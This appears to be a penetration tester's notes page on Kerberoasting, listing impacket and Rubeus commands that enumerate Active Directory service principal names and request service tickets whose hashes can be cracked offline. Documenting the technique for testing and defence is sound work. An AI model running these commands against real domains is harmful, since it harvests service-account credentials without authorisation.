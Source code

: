 # Kerberoasting

{% embed url="https://www.techcrafters.com/portal/en/kb/articles/how-to-list-all-spns-in-a-domain-using-powershell#2__Querying_SPNs" %}

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#roasting" %}

...



### Retrieve a list of SPNs in the network

1. `Get-ADServiceAccount` cmdlet

{% code overflow="wrap" %}
```powershell
PS> Get-ADServiceAccount -Filter 'ServicePrincipalNames -like "*"' | Select-Object -ExpandProperty ServicePrincipalNames
```
{% endcode %}

2. Impacket-scripts: **GetUserSPNs**

{% code overflow="wrap" %}
```sh
$ impacket-GetUserSPNs -dc-ip <DOMAIN_CONTROLLER> <TARGET>
```
{% endcode %}

* `<TARGET>:` The domain user account to authenticate to the KDC with
  * By default, all domain users can read the `servicePrinicpalName` attribute (required by the script)
  * Thus, as long as a valid user account is provided, it will not affect the results of the script

### Retrieve TGS for the SPNs we have found

1. &#x20;`impacket-GetUserSPNs` with the `-request-user` flag

{% code overflow="wrap" %}
```sh
$ impacket-GetUserSPNs -dc-ip <DOMAIN_CONTROLLER> <TARGET> -request-user <SERVICE_USER> 
```
{% endcode %}

* `-request-user:` Requests TGS for the SPN associated to the user specified (just the username, no domain needed)

2. `Rubeus.exe`

{% code overflow="wrap" %}
```powershell
C:\> Rubeus.exe kerberoast /spn:<SPN> /ticket:<EXISTING_TGT> 
C:\> Rubeus.exe kerberoast /user:<USERNAME> /ticket:EXISTING_TGT 
```
{% endcode %}

* `/ticket:` Specifies the TGT to use when requesting the service tickets
* `/spn:` Roasts just the specified SPN
* `/user:` Roasts just the specified user

**Other useful flags**

a. `/outfile:FILE:` outputs roasted hashes to the specified file, one per line

b. `/simple:` roasted hashes will be output to the console, one per line

**Combined command**

Or, we can directly enumerate and request for the TGS for all SPNs:

{% code overflow="wrap" %}
```powershell
C:\> Rubeus.exe kerberoast
```
{% endcode %}

